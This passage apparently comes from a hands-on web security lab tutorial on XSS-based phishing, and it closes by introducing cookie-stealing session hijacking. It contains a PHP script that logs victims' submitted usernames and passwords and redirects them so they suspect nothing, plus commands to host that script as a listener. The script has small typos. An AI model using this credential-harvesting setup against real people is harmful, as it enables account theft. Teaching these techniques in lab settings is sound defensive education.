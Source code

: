However, as we are only listening with a **netcat** listener, it will not handle the **HTTP** request correctly, and the **victim** would get an "Unable to connect" error, which may raise some suspicions.
So, we can use a basic **PHP** script that logs the **credentials** from the **HTTP** request and then returns the victim to the **original** page **without** any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call ``index.php`` and place it in ``/tmp/tmpserver``:
```php
<?php
if (isset($_GET['username']) && isset($GET['password'])) {
	$file = fopen("creds.txt", "a+");
	fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n);
	header("Location: http://SERVER_IP/phishing/index.php");
	fclose($file);
	exit();
}
?>
```

Now that we have our ``index.php`` file ready, we can start a `PHP` listening server, which we can use **instead** of the basic **netcat** listener we used earlier:
```bash
$ mkdir /tmp/tmpserver
$ cd /tmp/tmpserver
$ vi index.php #At this step we wrote our index.php file
$ sudo php -S 0.0.0.0:80

PHP Development Server (http://0.0.0.0:80) started
```

If we try logging into the **injected** login form, we see that we get redirected to the original **Image Viewer** page. And if we check the **creds.txt** file in our **Pwnbox**, we see that we did get the login credentials:
```bash
$ cat creds.txt

Username: test | Password: test
```

With everything ready, we can start our PHP server and send the URL that includes our XSS payload to our victim, and once they log into the form, we will get their credentials and use them to access their accounts.
### Session Hijacking (cookies)
Modern web applications utilize cookies to maintain a user's session, which enables the user to only log in once and keep their logged-in session alive even if they visit the same website at another time or date. However, if a malicious user obtains the cookie data from the victim's browser, they may be able to gain logged-in access with the victim's user without knowing their credentials.

With the ability to execute **JavaScript** code on the **victim's** browser, we may be able to collect their **cookies** and send them to our server to **hijack** their logged-in session by performing a **Session Hijacking** (aka **Cookie Stealing**) attack.
